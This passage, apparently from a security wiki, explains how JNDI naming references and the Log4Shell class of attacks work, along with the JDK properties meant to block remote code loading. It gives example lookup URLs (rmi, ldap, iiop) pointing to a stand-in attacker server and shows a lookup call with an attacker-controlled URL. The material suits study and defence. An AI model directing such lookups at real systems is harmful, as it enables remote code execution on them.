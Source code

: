 # JNDI - Java Naming and Directory Interface & Log4Shell


## Basic Information

JNDI, integrated into Java since the late 1990s, serves as a directory service, enabling Java programs to locate data or objects through a naming system. It supports various directory services via service provider interfaces (SPIs), allowing data retrieval from different systems, including remote Java objects. Common SPIs include CORBA COS, Java RMI Registry, and LDAP.

### JNDI Naming Reference

Java objects can be stored and retrieved using JNDI Naming References, which come in two forms:

- **Reference Addresses**: Specifies an object's location (e.g., _rmi://server/ref_), allowing direct retrieval from the specified address.
- **Remote Factory**: References a remote factory class. When accessed, the class is downloaded and instantiated from the remote location.

However, this mechanism can be exploited, potentially leading to the loading and execution of arbitrary code. As a countermeasure:

- **RMI**: `java.rmi.server.useCodeabseOnly = true` by default from JDK 7u21, restricting remote object loading. A Security Manager further limits what can be loaded.
- **LDAP**: `com.sun.jndi.ldap.object.trustURLCodebase = false` by default from JDK 6u141, 7u131, 8u121, blocking the execution of remotely loaded Java objects. If set to `true`, remote code execution is possible without a Security Manager's oversight.
- **CORBA**: Doesn't have a specific property, but the Security Manager is always active.

However, the **Naming Manager**, responsible for resolving JNDI links, lacks built-in security mechanisms, potentially allowing the retrieval of objects from any source. This poses a risk as RMI, LDAP, and CORBA protections can be circumvented, leading to the loading of arbitrary Java objects or exploiting existing application components (gadgets) to run malicious code.

Examples of exploitable URLs include:

- _rmi://attacker-server/bar_
- _ldap://attacker-server/bar_
- _iiop://attacker-server/bar_

Despite protections, vulnerabilities remain, mainly due to the lack of safeguards against loading JNDI from untrusted sources and the possibility of bypassing existing protections.

### JNDI Example

![[<../../images/image (1022).png>|]]

Even if you have set a **`PROVIDER_URL`**, you can indicate a different one in a lookup and it will be accessed: `ctx.lookup("<attacker-controlled-url>")` and that is what an attacker will abuse to load arbitrary objects from a system controlled by him.

### CORBA Overview
